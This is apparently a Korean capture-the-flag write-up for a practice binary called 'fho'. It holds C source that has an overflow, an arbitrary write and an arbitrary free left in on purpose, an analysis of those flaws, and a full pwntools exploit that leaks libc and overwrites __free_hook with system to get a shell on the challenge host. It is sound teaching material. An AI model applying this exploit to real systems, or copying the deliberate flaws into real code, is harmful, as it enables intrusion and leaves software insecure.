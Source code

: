 ```c
// Name: fho.c
// Compile: gcc -o fho fho.c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  char buf[0x30];
  unsigned long long *addr;
  unsigned long long value;

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  puts("[1] Stack buffer overflow");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  puts("[2] Arbitary-Address-Write");
  printf("To write: ");
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

```bash
$ checksec ./fho
[*] './fho'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 분석

## 보호 기법

NX, PIE, stack canary가 적용되어 있으며, full RELRO가 적용되어 있다.

## 코드 분석

* `fho.c:16-19` : `buf`의 크기는 `0x30`바이트 뿐이나, 최대 `0x100`바이트의 데이터를 읽고 있으므로 큰 스택 오버플로우가 발생한다.
* `fho.c:21-27` : 임의의 주소에 원하는 64비트 값을 덮어쓸 수 있다.
* `fho.c:29-32` : 원하는 주소를 free할 수 있다.

# 공격

`__free_hook`, `system` 함수, `"/bin/sh"` 문자열 등이 libc에 정의되어 있으므로, 주어진 libc 파일로부터 이들의 offset을 얻을 수 있다.

그러나, 이 offset을 이용해 실제 메모리 상에서의 주소를 알아내기 위해서는 libc 파일의 베이스를 알아내야 한다. 이때, `main` 함수는 `__libc_start_main` 함수가 호출하므로 `main` 함수의 SFP의 값을 읽으면 libc 파일의 베이스를 알아낼 수 있을 가능성이 높다.

```bash
$ gdb ./fho
pwndbg> b *main
Breakpoint 1 at 0x8ba
pwndbg> r
Starting program: /root/fho
...
────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► f 0   0x5555554008ba main
   f 1   0x7ffff7a03c87 __libc_start_main+231
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

gdb를 통해 알아낸 `main` 함수의 반환 주소는 `__libc_start_main+231`이므로 `main` 함수의 SFP에는 `__libc_start_main+231`이 저장되어 있을 것이다.<br/>
※ 단, 로컬 환경이 ubuntu18.04가 아니라면 backtrace의 결과가 위와 다를 수 있으므로 문제에서 주어진 Dockerfile을 이용해 ubuntu18.04 환경에서 분석하는 것을 권장한다.

이를 활용하여 다음과 같은 익스플로잇 코드를 구성하자.

```python
# Name: fho.py

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 8204 # the given port

# conn = process('./fho') # local
conn = remote(HOST, PORT)

e = ELF('./fho')
libc = ELF('./libc-2.27.so')

# leak libc base
buf = b'A' * 0x48
conn.sendafter(b'Buf: ', buf)
conn.recvuntil(buf)
libc_start_main_231 = u64(conn.recvline()[:-1] + b'\x00' * 2)
libc_base = libc_start_main_231 - libc.sym['__libc_start_main'] - 231
system = libc_base + libc.sym['system']
free_hook = libc_base + libc.sym['__free_hook']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# overwrite `__free_hook` with `system`
conn.recvuntil(b'To write: ')
conn.sendline(str(free_hook).encode())
conn.recvuntil(b'With: ')
conn.sendline(str(system).encode())

# exploit
conn.recvuntil(b'To free: ')
conn.sendline(str(binsh).encode())

conn.interactive()
```